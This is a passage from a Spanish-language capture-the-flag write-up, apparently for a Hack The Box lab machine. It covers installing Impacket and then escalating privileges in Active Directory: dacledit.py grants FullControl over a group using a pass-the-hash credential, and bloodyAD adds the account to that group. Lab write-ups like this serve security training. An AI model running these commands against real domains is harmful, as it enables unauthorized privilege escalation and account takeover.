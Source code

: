 - **Clonar el repositorio de Impacket:** Vamos a descargar el código fuente de Impacket en el directorio que acabamos de crear.
    ```
    cd ~/tools
    git clone https://github.com/SecureAuthCorp/impacket.git
    ```

- **Crear y activar el entorno virtual:** Esto creará un entorno Python aislado llamado `venv_impacket` dentro del directorio de Impacket. Después, lo activaremos para que cualquier comando de `pip` o `python` que ejecutes afecte solo a este entorno.

    ```
    cd ~/tools/impacket
    python3 -m venv venv_impacket
    source venv_impacket/bin/activate
    ```
    
    Verás que tu prompt de la terminal cambiará, probablemente mostrando `(venv_impacket)` al principio, indicando que el entorno virtual está activo.
    
- **Instalar las dependencias e Impacket dentro del entorno virtual:** Ahora, con el entorno virtual activo, instalaremos todas las librerías que Impacket necesita, y luego el propio Impacket.
    ```
    pip install -r requirements.txt
    pip install .
    ```

```bash
python3 dacledit.py -action write -rights FullControl -principal 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' -dc-ip 10.10.11.61 "haze.htb/Haze-IT-Backup$" -hashes ':4de830d1d58c14e241aff55f82ecdba1'
```
### -------------------------------------------------------------------------

![paste](./images/25.jpeg)

- Otorga control total (`FullControl`) sobre el grupo `SUPPORT_SERVICES`
- Modifica las ACL (Access Control Lists) del directorio

### 3. **Adición al Grupo de Soporte**

```bash
bloodyAD --host "10.10.11.61" -d "haze.htb" -u "Haze-IT-Backup$" -p ":735c0" add groupMember SUPPORT_SERVICES Haze-IT-Backup$
```

![paste](./images/26.jpeg)
- Se agrega a sí mismo al grupo `SUPPORT_SERVICES`
- Ahora tiene los privilegios de este grupo
